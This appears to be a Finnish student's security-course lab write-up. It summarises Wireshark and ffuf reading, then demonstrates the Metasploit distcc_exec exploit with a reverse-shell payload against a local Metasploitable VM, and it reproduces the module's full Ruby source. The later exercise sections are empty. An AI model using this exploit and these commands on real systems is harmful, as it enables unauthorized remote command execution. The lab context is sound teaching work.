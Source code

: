 # h3 Nuuskija

## x) Lue ja tiivistä

Popov 2024: Hacktricks: Wireshark tricks [https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills)

- Analyysityökaluja: Expert Information näyttää analyysin pääkohdat; Protocol Hierarchy listaa kaikki protokollat
- Suodattimet: esim. http.request, näyttää HTTP-liikenteen
- CTRL+F hakee sisältöä

Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf [https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)
- FFUF (Fuzz Faster U Fool): nopea web-fuzzer, tunnistaa piilotettuja URL-osoitteita testaamalla automaattisesti useita URL-osoitteita -> vähemmän manuaalista työtä, enemmän tuloksia
-  FUFF käyttää sanakirjatiedostoja etsiäkseen piilotettuja URL-osoitteita tai hakemistoja
- Ohjeesta löytyy testattava kohde sekä suositus sanakirjatiedostolähteestä
- web-palvelin palauttaa HTTP-statuskoodin 200 OK kaikille URL-osoitteille, yhteisiä piirteitä ei-toivotuista vasteista voi etsiä ja suodattaa tuloksia niiden perusteella
- Suodattimia: vasteen koko (-fs), sanamäärä (-fw), rivit (-fl)
- Esim. curlilla voi tarkastaa tulokset

## a) Valitse valmis hyökkäys. Ota sellainen hyökkäys, jonka saat toimimaan omaan paikalliseen harjoitusmaaliin, kuten Metasploitableen. Demonstroi hyökkäyksen toiminta.

Googlasin hyökkäyksiä, ja löysin yhden, joka vaikutti helposti toteutettavalta sivulta [https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e](https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e): DISTCCD Open Port.

Avasin msfconsolen ``sudo msfconsole``, etsin hyökkäyksen ``search distccd`` ja valitsin hyökkäyksen ``use 0``. Asetin kohteeksi Metasploitablen ``set RHOSTS 192.168.56.102``.

![image](https://github.com/user-attachments/assets/c3426118-6cd5-48c9-9c7d-9bc6d98f5306)

``show payloads`` katsoin, millaisia payloadeja hyökkäyksessä pystyi käyttämään. Löytämäni ohjeen mukaan valitsin cmd/unix/reverse ``set PAYLOAD 6``, ja sitten ``run``.

Ilmoituksena tuli, että exploit suoritettu, sessiota ei luotu. Katsoin ``show options`` pitäisikö jotain muuta määrittää. Korjasin LHOST ``set LHOST 192.168.56.101``, valitsin saman payloadin ja suoritin exploitin uudelleen. Nyt pääsin sisään, mutten rootina. 

![image](https://github.com/user-attachments/assets/552fe8f1-b26f-4f6b-afc1-3bd457a3b2ca)





## b) Sorsa. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa lähdekoodista.

Lähdekoodin löysin ``/usr/share/metasploit-famework/modules/exploits/unix/misc/distcc_exec.rb``.

[https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html](https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html)

Exploitin kriittinen osa on dist_cmd-kohta, joka huijaa DistCC luulemaan, että komento on käännöskomento. Tässä vaiheessa payload suoritetaan etäkoneella.



```ruby

# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.

      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd cmd_bash',
              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2002-02-01'
      ))

      register_options(
        [
          Opt::RPORT(3632)
        ])
  end

  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out && out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    connect

    distcmd = dist_cmd("sh", "-c", payload.encoded);
    sock.put(distcmd)

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output

    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

    handler
    disconnect
  end

  def read_output

    res = sock.get_once(24, 5)

    if !(res and res.length == 24)
      print_status("The remote distccd did not reply to our request")
      disconnect
      return
    end

    # Check STDERR
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [nil, nil] if not len
    if (len > 0)
      err = sock.get_once(len, 5)
    end

    # Check STDOUT
    res = sock.get_once(4, 5)
    res = sock.get_once(8, 5)
    len = [res].pack("H*").unpack("N")[0]

    return [err, nil] if not len
    if (len > 0)
      out = sock.get_once(len, 5)
    end
    return [err, out]

  end


  # Generate a distccd command
  def dist_cmd(*args)

    # Convince distccd that this is a compile
    args.concat(%w{# -c main.c -o main.o})

    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + sprintf("ARGC%.8x", args.length)

    # Set the command arguments
    args.each do |arg|
      res << sprintf("ARGV%.8x%s", arg.length, arg)
    end

    return res
  end
end




## c) Snif snif. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa verkkosnifferillä. Pohdi myös, miten näkyvä tämä hyökkäys tai kontrollikanava on verkossa. (Vapaaehtoinen bonus: liitä mukaan pcap tekemästäsi nauhoituksesta).


## d) Fuzzzz. Ratkaise dirfuz-1 artikkelista Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.


## d) HTB. Ratkaise 1-2 konetta HackTheBoxisssa. Voit valita omaan taitotasoon sopivat koneet.


## e) Vapaaehtoinen, helppo: Vaihda 'micro' Metasploitin oletuseditoriksi. Sille on oma 'setg' asetus.


## Lähteet

https://www.computersecuritystudent.com/SECURITY_TOOLS/METASPLOITABLE/EXPLOIT/lesson2/index.html

https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e


https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e
